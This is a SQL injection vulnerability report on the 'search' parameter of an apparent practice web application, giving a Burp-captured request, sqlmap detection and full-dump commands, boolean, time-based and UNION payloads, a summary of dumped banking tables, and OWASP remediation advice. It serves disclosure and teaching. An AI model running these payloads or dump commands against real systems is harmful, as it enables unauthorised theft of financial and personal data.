




# Description
A SQL Injection vulnerability was identified on the `search` GET parameter of the page `/association/list.php`.
This vulnerability allows a remote, unauthenticated attacker to inject SQL statements into the application's database queries.
Three injection techniques were confirmed: boolean-based blind, time-based blind, and UNION query injection.
The attacker can exfiltrate the entire backend MySQL database (`my_association_db`), including sensitive data such as banking information.

# Exploitation
## Identify the injection point
The vulnerable parameter is `search` on the association listing page:
```
https://<IP>/index.php?page=association%2Flist.php&search=WOCSA
```

## Intercept the request with Burp Suite
The HTTP request was captured using Burp Suite's Intercepter to create a request file (`asso.req`) for sqlmap:
```
GET /index.php?page=association%2Flist.php&search=WOCSA HTTP/2
Host: <IP>.3xploit.me
Cookie: PHPSESSID=<HIDDEN>
...
```

## Run sqlmap to detect entrypoints
sqlmap was launched with elevated level and risk options to maximize detection:
```bash
sqlmap --delay 2 -r asso.req --level=3 --risk=3 -p search -t trafic.log
```

sqlmap identified the following injection points on the `search` parameter:

**Boolean-based blind:**
```
Payload: page=association/list.php&search=WOCSA AND 9556=9556-- imCg
```

**Time-based blind (query SLEEP):**
```
Payload: page=association/list.php&search=WOCSA' AND (SELECT 1540 FROM (SELECT(SLEEP(5)))sKVN)-- aaPR
```

**UNION query (8 columns):**
```
Payload: page=association/list.php&search=WOCSA' UNION ALL SELECT NULL,CONCAT(...),...,NULL,NULL,NULL,NULL,NULL--
```





## Dump the database
Using the discovered entrypoints, the full database was dumped:
```bash
sqlmap --delay 2 -u "https://<IP>.3xploit.me/index.php?page=association%2Flist.php&search=WOCSA" --dump
```

# PoC
The database dump revealed sensitive data including banking information:



The dump exposed 2 directories and 13 files including:
- `bank_accounts.csv` - containing bank names, account details
- `documents.csv`
- `event_feedbacks.csv`
- `transactions.csv`
- `user_associations.csv`

Additional tables such as `comments` (42 entries) were also fully extracted:



Confirmed back-end DBMS: MySQL >= 5.0.12 (MariaDB fork), web application technology: PHP 8.2.28, Nginx.

# Risk
- Full database exfiltration including banking information and user data
- Sensitive data disclosure (bank accounts, transactions, personal information)
- Potential data modification or privilege escalation via SQL injection
- No authentication required to exploit

# Remediation
Use prepared statements (parameterized queries) instead of string concatenation in SQL queries.
Refer to the OWASP SQL Injection Prevention Cheat Sheet:
https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html

Key mitigations:
1. Use of Prepared Statements (with Parameterized Queries)
2. Use of Properly Constructed Stored Procedures
3. Allow-list Input Validation

# Author
EPITA_SRS
